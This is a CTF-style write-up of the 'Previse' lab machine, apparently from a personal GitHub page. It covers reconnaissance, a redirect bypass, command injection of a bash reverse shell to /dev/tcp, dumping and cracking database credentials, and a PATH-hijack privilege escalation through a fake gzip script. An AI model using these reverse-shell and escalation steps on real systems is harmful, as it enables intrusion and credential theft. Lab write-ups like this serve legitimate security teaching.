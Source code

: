 # PreVise Writeup

### Privilege Escalation

#### Reconnaissance:

As always we will start with nmap scanning in which we find there are two ports open in this box → port 22(ssh) and port 80 (http).

When we check this web server so we find a simple login page.

By seeing this page, my first approach was intercept the login request save it and use sql map for cracking:

```perl
sqlmap -r login.req --batch
```

But in the end it did not worked, now in the background I also started a gobuster run and after a while we find a subdomin ‘accounts.php’ if we open it in the browser so we redirects to login.php page but if we intercept this request in the burp suite then we can see a 302 found header.

#### Gain Access:

Now if we change `302 Found → 200 Ok` then we will land on a page where we can now make an account. 

Now we make a account there and get back on the login.php page then try to login again, and using the same credentials that we are now logged in.

Then we go to log data section in the website and go to file delimiter and intercept the request and then put a reverse shell in url encoded form.

```
bash -c 'exec bash -i &>/dev/tcp/#ip/#port <&1'
```

and we get shell on the box.

For stabilizing the shell we can use following commands:

```python
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
Ctrl + Z
stty raw -echo; fg
stty rows 38 columns 116
```

#### User.txt:

Now I have a stable shell on the box, now my approach is always look into the configuration files.

In the configuration files we get the sql database password and a user name `m4lwhere`

Now we go to sql database and try to retrieve some more information.

```
mysql -u root -p'mySQL_p@ssw0rd!:)'-e'show databases;'
mysql> mysql -u root -p'mySQL_p@ssw0rd!:)' previse -e'select * from accounts;’
```

I found a hash password in the database and with the help of hashcat we can crack the password: `lovecody112235!`

Now we can connect through using credentials m4lwhere:lovecody112235!

We can got our first user.txt flag here and now we have to 

#### Root.txt:

Now as always we do sudo -l and we analyze that the box is storing data in gzip file so we will made our own which directly gives us root.
now make a file call gzip and write this :

```
#bin/bash bash -i >& /dev/tcp/#ip/#port 0>&1
and then —> chmod +x gzip
export PATH=.:$PATH
```

Now we download the file in the box and unzip the file.
then run the following command:

```
sudo /opt/scripts/access_backup.sh
```

Now we simply so to /root folder and get the root.txt flag.

Hope you like this writeup, if you like it please show some love by follow me on:

GitHub: [https://github.com/mvaibhavm09](https://github.com/mvaibhavm09)

LinkedIn: [https://linkedin.com/in/mvaibhavm09](https://linkedin.com/in/mvaibhavm09)

Twitter:  [https://twitter.com/mvaibhavm09](https://twitter.com/mvaibhavm09) 

Happy Hacking :)
